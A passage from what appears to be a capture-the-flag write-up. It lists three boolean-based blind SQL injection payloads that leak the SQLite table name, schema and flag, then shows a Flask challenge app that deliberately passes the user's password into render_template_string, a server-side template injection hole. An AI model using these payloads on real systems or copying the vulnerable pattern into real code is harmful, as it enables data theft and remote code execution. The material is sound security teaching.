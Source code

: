 ![image](https://user-images.githubusercontent.com/75429369/180778213-132fced2-1f97-438a-b47f-8c4e9395e1fc.png)

Easy to know it's blind sqli using boolean based, I'll leave the payload for exploit here because I have deleted the script and too lazy to redo it :P

Leak table name
```
' or (select hex(substr(tbl_name,1,1)) from sqlite_master where type='table' and tbl_name NOT like 'sqlite_%') = hex('n') --
```

Leak table info
```
' or (select hex(substr(sql,1,1)) from sqlite_master where type!='meta' and sql NOT NULL and name='names') = hex('a') --
```

Get the flag
```
' or (select hex(substr(name,1,1)) from names) = hex('L') --
```

# Flushed Emoji

The challenge gave us a site and when we click on the flushed emoji button, it will have a pop up which has a login form like this

![image](https://user-images.githubusercontent.com/75429369/180778854-fcc4f3ba-2e6a-4f63-988e-ac12bf3d8e6b.png)

main.py
```python
import sqlite3
from flask import Flask, render_template, render_template_string, redirect, url_for, request
import requests;
import re;

app = Flask(__name__)


def alphanumericalOnly(str):
  return re.sub(r'[^a-zA-Z0-9]', '', str);

@app.route('/', methods=['GET', 'POST'])
def login():
  if request.method == 'POST':

    username = request.form['username']
    password = request.form['password']

  
    if('.' in password):
      return render_template_string("lmao no way you have . in your password LOL");

    r = requests.post('[Other server IP]', json={"username": alphanumericalOnly(username),"password": alphanumericalOnly(password)}); 
    print(r.text);
    if(r.text == "True"):
      return render_template_string("OMG you are like so good at guessing our flag I am lowkey jealoussss.");
    return render_template_string("ok thank you for your info i have now sold your password (" + password + ") for 2 donuts :)");

  return render_template("index.html");


app.run(host='127.0.0.1',port=8081,debug=True)
```